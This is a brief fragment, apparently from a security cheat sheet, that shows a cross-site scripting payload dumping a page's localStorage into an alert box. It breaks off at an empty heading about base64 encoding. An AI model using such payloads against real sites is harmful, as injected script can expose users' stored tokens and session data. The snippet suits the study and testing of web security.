 # Getting localStorage with XSS
Prints out the localstorage

```javascript
<script>alert(JSON.stringify(localStorage))</script>
```

## base64 encode 
